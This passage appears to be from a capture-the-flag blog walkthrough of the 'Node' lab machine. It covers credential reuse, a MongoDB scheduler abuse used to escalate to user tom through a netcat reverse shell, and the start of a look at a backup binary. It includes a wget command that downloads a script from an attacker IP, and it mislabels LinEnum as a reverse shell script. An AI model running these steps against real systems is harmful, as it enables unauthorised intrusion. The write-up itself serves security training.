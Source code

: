 ![_config.yml]({{ site.baseurl }}/images/2020/december/02/node/7-1.png)

If we go back to our nmap scan where we scan all ports, we only have 22 and 3000 open still. So let's try to SSH with the above credentials.

![_config.yml]({{ site.baseurl }}/images/2020/december/02/node/7-2.png)

Then we can log in to the box with that password. “mark” reuses his mangodb password as his localuser password. With a vertical split we're going to curl a simple http server with python, to bash.

![_config.yml]({{ site.baseurl }}/images/2020/december/02/node/7-3.png)

Reading the processes, we have a note schedular running as “tom”. We probably want to look at this /var/scheduler/app.js file. 

![_config.yml]({{ site.baseurl }}/images/2020/december/02/node/7-4.png)

Inserting the mongo command (with the flag -p to specify mark's password) we can connect.

```bash
mongo -p -u mark scheduler  
```


### Privesc to Tom user

What we have to do now is try to elevate ourselves to Tom or root. First we download the reverse shell script and give it execute privileges.

```bash
cd /tmp
wget 10.10.14.12:5555/LinEnum.sh
chmod +x LinEnum.sh
```

Then connecting to mongodb thanks to Mark's id.  Downloading our script and confirming the tasks with db.tasks.find().

![_config.yml]({{ site.baseurl }}/images/2020/december/02/node/9-1.png)

All this time we were listening with netcat on port 1234. We are now Tom.

![_config.yml]({{ site.baseurl }}/images/2020/december/02/node/9-2.png)

Looking back at the /var/scheduler/app.js file from earlier, we notice that the file /usr/local/bin/backup keeps getting call by the application.

![_config.yml]({{ site.baseurl }}/images/2020/december/02/node/9-3.png)


### Analyzing Backup Binary File

It is quite a long string of base64 text so we'll use netcat to transfer it to our directory and work it there. We also checked with md5sum to see if we go the proper file.

![_config.yml]({{ site.baseurl }}/images/2020/december/02/node/10-1.png)
